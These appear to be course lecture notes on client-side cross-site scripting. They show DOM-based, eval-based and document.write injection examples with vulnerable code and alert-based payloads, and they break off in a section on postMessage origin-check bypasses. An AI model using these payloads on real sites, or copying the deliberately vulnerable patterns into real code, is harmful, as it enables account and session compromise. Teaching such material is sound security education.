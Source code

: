 `https://mysite.com/showme_profile.php#<script>alert(‘xss’)</script>` script tag will be added.

## DOM-based XSS Attacks
```html
<head>
<title>CS492</title>
<body>
<strong id=‘tgt’> Injection Target! </strong>
<script defer>
let name = decodeURIComponent(document.location.hash);
name = name.substr(1);
document.querySelector('#name').innerHTML = name;
</script>
```
Payload is `http://target.com/vulnerable.php#<img src=x onerror='alert(1)'>`.
## Client-side XSS Attack
```html
<head>
<title>CS492</title>
<body>
<script>
function addCookie() {
eval("document.cookie='myHash=" +
window.location.hash.split("#")[1] + "'");
}
addCookie();
</script>
```
If we have this payload `http://target.com/vulnerable.php#apple';alert(1);//` it will change to 
```html
<script>
eval("documemnt.cookie='apple';alert(1);//' ");
</script>
```
## Client-side XSS Examples
Suppose if we have 
```html
document.write('<a link onclick="' +document.baseURI + '"><\a>');
```
We can make payload as `"></a><script>alert ('XSS')</script><textarea>`. And it will be tranformed to `<a link onclick="myaddress.com#"><script>alert (' XSS ')</script><textarea>><\a>`.
And if we have this kind of html file
```html
document.write("<script> var url=escape('" +document.baseURI +"';dosomething()><\script>");
```
We can make payload as `');alert ('XSS');//`. And it will be converted to `<script> var url=escape('myaddress.com#');alert ('XSS');//;dosomething()><\script>`.

## postMessage
In order to communication between websites we can use postMessage. But many of them do not check origin of the messenger. We can use that to make some attacks. To prevent this kind of attacks we need to check the origin attribute to ensure that messages are only accepted from domains that they expect to recieve messages from.
In this table you can see common ways to bypass origin checks.